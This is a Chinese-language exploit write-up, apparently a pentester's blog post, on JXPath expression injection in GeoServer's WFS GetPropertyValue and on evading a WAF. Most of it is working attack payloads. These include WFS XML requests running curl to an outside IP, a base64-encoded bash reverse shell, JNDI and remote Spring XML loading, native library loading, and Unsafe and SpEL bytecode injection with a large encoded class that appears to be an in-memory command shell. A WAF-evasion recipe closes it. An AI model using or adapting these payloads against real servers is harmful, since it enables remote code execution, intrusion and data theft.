前提
实战遇到waf, 绕过去了，但是不解析，所以本地环境学习一下。
分析

Y4 大哥说了 允许调用public构造函数，和public static 的方法。构造函数后可以调用类下的public方法。

绕过

1
2
3
4
5
6
7
8
9
| <wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
<wfs:Query typeNames='sf:archsites'/>
<wfs:valueReference>
/+ex[(:suibianxie:)]ec
 	
 	(java.lang.Runtime.getRuntime
 	(),'curl http://10.23.24.80:8089/1')
 	
</wfs:valueReference>
</wfs:GetPropertyValue>
|
简单来说就是 [] 之间 的东西替换为空，html实体化编码，****标签注释符,换行空格绕过
可惜实战waf绕过去了， [] 没替换掉，实战就是就是。( 表达式里好像只会把一个函数名的[]替换为空，多个函数插只把一个参数的[]替换为空了)


解码这样，说实
exp
有时候就检测关键字
可以换一下poc
1
2
3
4
5
6
7
| String loadLibrary = " load(java.lang.Runtime.getRuntime(),'/Users/snake/Downloads/poc1.dylib')";
String poc = "org.springframework.context.support.ClassPathXmlApplicationContext.new('http://127.0.0.1:8089/1')";
String sprl="getValue(parseExpression(org.springframework.expression.spel.standard.SpelExpressionParser.new(),'new java.lang.ProcessBuilder(\"bash\",\"-c\",\"{echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4yMy4yNC44MC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}\").start()'))";
String jndi = "javax.naming.ldap.InitialLdapContext.doLookup('ldap://127.0.0.1:80/Object')";
String xx="getValue(parseExpression(org.springframework.expression.spel.standard.SpelExpressionParser.new(),'new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(\"open .\").getInputStream()).next()'))";
JXPathContext context = JXPathContext.newContext(null);
context.getValue(xx);
|
java.lang.System.load 加载dll， 改属性一样

改属性/加载dll，
要是jdk8 可以直接jndi得了
java.lang.System.load 本质调用的是Runtime下的load，所以可换。不要用loadLibrary，loadLibrary会从javalib包下找，传值咬加一堆../../，麻烦死了。
1
| String loadLibrary = " load(java.lang.Runtime.getRuntime(),'/Users/snake/Downloads/poc1.dylib')"
|
1
| java.lang.System.load('/Users/snake/Downloads/poc1.dylib')
|

springxmlbean

两个都想，还有几个也可以加载xml，但是参数不是单string, 就用这两个就好了。
1
| org.springframework.context.support.ClassPathXmlApplicationContext.new('http://127.0.0.1:8089/test.xml')
|

ProcessBuilder/exec
有些waf就单纯检查exec，换一下ProcessBuilder

springxmlbean，也可以加字节码，欢迎在 https://github.com/Java-Chains/web-chains 中尝试。
在就事不出网利用
调用js来加载字节码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
| <wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
<wfs:Query typeNames='sf:archsites'/>
<wfs:valueReference>
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="base64code";
var bt;
try {
bt = org.geotools.util.Base64.decode(str);
} catch (e) {
bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')
</wfs:valueReference>
</wfs:GetPropertyValue>
|
然后高版本jdk15+ 没defineAnonymousClass，没js怎么搞了
jdk17调用spel来加载字节码
Jdk17 要检测moudule，也没有defineAnonymousClass，直接用spel绕过最简单了，

1
2
3
4
5
6
7
| <wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
<wfs:Query typeNames='sf:archsites'/>
<wfs:valueReference>getValue(parseExpression(org.springframework.expression.spel.standard.SpelExpressionParser.new(),'T(org.springframework.cglib.core.ReflectUtils).defineClass("org.springframework.expression.Testaac",T(java.util.Base64).getDecoder().decode("yv66vgAAADcBAwgAXwoAGQBgCgAvAGEKAC8AYgoAVgBjCABkCgAXAGUIAGYKABcAZwoAVwBoCgBXAGkIAGoIAGsIAGwIAG0KAG4AbwoAbgBwCgAZAHEKABcAcggAcwoAHgB0CAB1BwB2CgAXAHcHAHgKAHkAeggAewgAfAgAfQcAfgoALwB/CACABwCBCgAvAIIKACEAgwoAIQCECgAhAIUHAIYJAIcAiAgAiQoAigCLCgAmAIwIAI0KAIcAjggAjwoAHgCQBwCRCgAXAJIIAJMIAJQIAJUHAJYIAJcKADQAmAoANACZCACaCACbCACcCgAeAJ0IAJ4KAB4AnwgAoAgAoQgAoggAowoApAClCgCkAKYKAKcAqAcAqQoARQCqCACrCgBFAKwIAK0KAEUArgoARQCvEgAAALMKACYAtAEAEGdldFJlcUhlYWRlck5hbWUBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAY8aW5pdD4BAAMoKVYBAANydW4BAA1TdGFja01hcFRhYmxlBwC1BwC2AQAGYnlwYXNzAQAEZXhlYwEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7BwC3BwC4AQAKU291cmNlRmlsZQEADFRlc3RhYWMuamF2YQEAA2NtZAwAUgBTDABYAFMMAFQAUwwAuQC6AQAQamF2YS5sYW5nLlRocmVhZAwAuwC8AQAMdGhyZWFkTG9jYWxzDAC9AL4MAL8AwAwAwQDCAQAkamF2YS5sYW5nLlRocmVhZExvY2FsJFRocmVhZExvY2FsTWFwAQAFdGFibGUBACpqYXZhLmxhbmcuVGhyZWFkTG9jYWwkVGhyZWFkTG9jYWxNYXAkRW50cnkBAAV2YWx1ZQcAwwwAxADFDADBAMYMAMcAyAwAyQBPAQAnb3JnLmVjbGlwc2UuamV0dHkuc2VydmVyLkh0dHBDb25uZWN0aW9uDADKAMsBAA5nZXRIdHRwQ2hhbm5lbAEAD2phdmEvbGFuZy9DbGFzcwwAzADNAQAQamF2YS9sYW5nL09iamVjdAcAzgwAzwDQAQALZ2V0UmVzcG9uc2UBAApnZXRSZXF1ZXN0AQAJZ2V0SGVhZGVyAQAQamF2YS9sYW5nL1N0cmluZwwATgBPAQAJZ2V0V3JpdGVyAQATamF2YS9pby9QcmludFdyaXRlcgwAWQBaDADRANIMANMAUwwA1ABTAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcA1QwA1gDXAQARVGVzdGFhYyBleGNlcHRpb24HANgMANkA0gwA2gBTAQAMamF2YS52ZXJzaW9uDADbAFoBAAIxNwwA3ADdAQAmb3JnL3NwcmluZ2ZyYW1ld29yay9leHByZXNzaW9uL1Rlc3RhYWMMAN4A3wEADGJ5cGFzcyBzdGFydAEAD3N1bi5taXNjLlVuc2FmZQEACXRoZVVuc2FmZQEAD3N1bi9taXNjL1Vuc2FmZQEABm1vZHVsZQwA4ADhDADiAOMBAApieXBhc3MgZW5kAQAOYWxyZWFkeSBieXBhc3MBAAdvcy5uYW1lDADkAE8BAAN3aW4MAOUA5gEABy9iaW4vc2gBAAItYwEAB2NtZC5leGUBAAIvYwcA5wwA6ADpDABZAOoHAOsMAOwA7QEAEWphdmEvdXRpbC9TY2FubmVyDABSAO4BAAJcYQwA7wDwAQAADADxAPIMAPMATwEAEEJvb3RzdHJhcE1ldGhvZHMPBgD0CAD1DAD2APcMAPgATwEAEGphdmEvbGFuZy9UaHJlYWQBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAEAE1tMamF2YS9sYW5nL1N0cmluZzsBABNqYXZhL2lvL0lucHV0U3RyZWFtAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAHZm9yTmFtZQEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQANc2V0QWNjZXNzaWJsZQEABChaKVYBAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAF2phdmEvbGFuZy9yZWZsZWN0L0FycmF5AQAJZ2V0TGVuZ3RoAQAVKExqYXZhL2xhbmcvT2JqZWN0OylJAQAnKExqYXZhL2xhbmcvT2JqZWN0O0kpTGphdmEvbGFuZy9PYmplY3Q7AQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7AQAHZ2V0TmFtZQEABmVxdWFscwEAFShMamF2YS9sYW5nL09iamVjdDspWgEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAAV3cml0ZQEAFShMamF2YS9sYW5nL1N0cmluZzspVgEABWZsdXNoAQAFY2xvc2UBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BAA9wcmludFN0YWNrVHJhY2UBAAtnZXRQcm9wZXJ0eQEACnN0YXJ0c1dpdGgBABUoTGphdmEvbGFuZy9TdHJpbmc7KVoBAAlnZXRNb2R1bGUBABQoKUxqYXZhL2xhbmcvTW9kdWxlOwEAEW9iamVjdEZpZWxkT2Zmc2V0AQAcKExqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDspSgEAD2dldEFuZFNldE9iamVjdAEAOShMamF2YS9sYW5nL09iamVjdDtKTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAC3RvTG93ZXJDYXNlAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7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"),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName("org.springframework.expression.ExpressionParser")).newInstance()'))</wfs:valueReference>
</wfs:GetPropertyValue>
|
需要注意，jdk17会检查moudle。在使用spel加载字节码的时候，它会检查类的名字，要是在一个包下，就可以完成绕过，所以在defineClass的时候，类名要在org.springframework.expression包下，生成的时候注意。用spring自带的ReflectUtils的defineClass进行类加载。
总结
低版本jdk，直接exec/ProcessBuilder, 或者jndi加载类，不行就先改系统属性在jndi。不出网就调用js使用unsafe.defineAnonymousClass打加载字节码(jdk15一下) ，jdk17以上使用spel表达式进行加载字节码。
绕过就是在每两个字符直接插 或者插入[anystr]符号，或者直接全部html编码,在函数()直接疯狂空格换行，

可以看到完全没毛病，最后插入**[anyString]** 只能好像替换一个为空，好像只能在一个参数名中插，多个函数名插回gg
下版本加入chains。
参考
https://github.com/Java-Chains/web-chains
https://tttang.com/archive/1771/
https://whoopsunix.com/docs/java/named%20module/
https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247510451&idx=1&sn=a8c582e83e35747d6fae99869fb987ec